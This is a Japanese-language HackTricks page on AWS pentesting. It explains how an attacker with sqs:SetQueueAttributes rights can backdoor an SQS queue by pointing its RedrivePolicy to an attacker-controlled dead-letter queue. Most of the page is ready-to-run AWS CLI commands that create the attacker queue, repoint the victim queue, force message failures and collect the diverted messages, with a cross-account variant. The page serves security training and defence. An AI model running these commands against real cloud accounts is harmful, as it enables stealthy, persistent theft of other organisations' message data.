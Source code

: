 # AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

SQS Dead-Letter Queues (DLQs) を悪用して、victim source queue の RedrivePolicy を attacker-controlled queue に向けることでデータを密かに siphon できます。maxReceiveCount を低く設定し、正常な処理失敗を誘発するか待つことで、メッセージは producers や Lambda event source mappings を変更せずに自動的に attacker DLQ に迂回されます。

## 悪用される権限
- sqs:SetQueueAttributes を victim source queue に対して (RedrivePolicy を設定するため)
- sqs:SetQueueAttributes を attacker DLQ に対して (RedriveAllowPolicy を設定するため)
- 高速化のためのオプション: sqs:ReceiveMessage を source queue に対して
- セットアップのオプション: sqs:CreateQueue, sqs:SendMessage

## 同一アカウントでのフロー (allowAll)

準備 (attacker account or compromised principal):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```
実行（被害者アカウント内で、侵害されたプリンシパルとして実行）：
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
--queue-url "$VICTIM_SRC_URL" --region $REGION \
--attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```
加速（任意）:
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
--max-number-of-messages 10 --visibility-timeout 0; \
done
```
検証:
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--max-number-of-messages 10 --attribute-names All --message-attribute-names All
```
例の証拠（Attributes に DeadLetterQueueSourceArn が含まれる）:
```json
{
"MessageId": "...",
"Body": "...",
"Attributes": {
"DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
}
}
```
## Cross-Account Variant (byQueue)
攻撃者のDLQに対してRedriveAllowPolicyを設定し、特定の被害者のソースキューARNのみを許可する:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```
## 影響
- 自動的に被害者の SQS ソースキューから失敗したメッセージを攻撃者が管理する DLQ に迂回させることで、最小限の運用ノイズかつ送信元や Lambda マッピングの変更は不要で、ステルス性が高く永続的な data exfiltration/persistence を実現します。

{{#include ../../../../banners/hacktricks-training.md}}
